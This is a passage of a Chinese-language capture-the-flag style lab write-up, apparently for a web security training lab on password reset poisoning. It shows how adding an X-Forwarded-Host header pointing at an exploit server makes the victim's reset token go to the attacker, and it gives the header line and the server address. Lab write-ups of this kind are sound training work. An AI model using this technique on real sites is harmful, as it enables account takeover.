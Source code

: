本实验中X-Forwarded-Host标头是受支持的，使用它来将动态生成的重置链接指向自己控制的任意域

### 答案

这题与上题的不同，就是修改密码参数中 `temp-forgot-password-token` 是动态的，使用 wiener 用户的 token 无法修改 carlos 用户的密码。但是，这题有另外一个漏洞，就是支持 `X-Forwarded-Host` ，可以使用它来将动态生成的重置链接指向自己控制的任意域，即把carlos 的 token 发送到我们自己的漏洞利用服务器

 还是先登录到 wiener 账号得到邮箱

```
wiener@exploit-0a520010041aea808403442501c30022.exploit-server.net
```

再退出登录，使用受害者 carlos 的账号获取它重置密码的那个动态token，使用覆盖 url 把carlos 的 token 发送到我们自己的漏洞利用服务器

<img src=".\图片\Snipaste_2023-08-04_17-51-23.png" alt="Snipaste_2023-08-04_17-51-23" style="zoom:80%;" />

抓包加上我们漏洞服务器的地址

```
X-Forwarded-Host: exploit-0a520010041aea808403442501c30022.exploit-server.net
```

得到重置 carlos 账号密码的 token

<img src=".\图片\Snipaste_2023-08-04_17-54-15.png" alt="Snipaste_2023-08-04_17-54-15" style="zoom:67%;" />
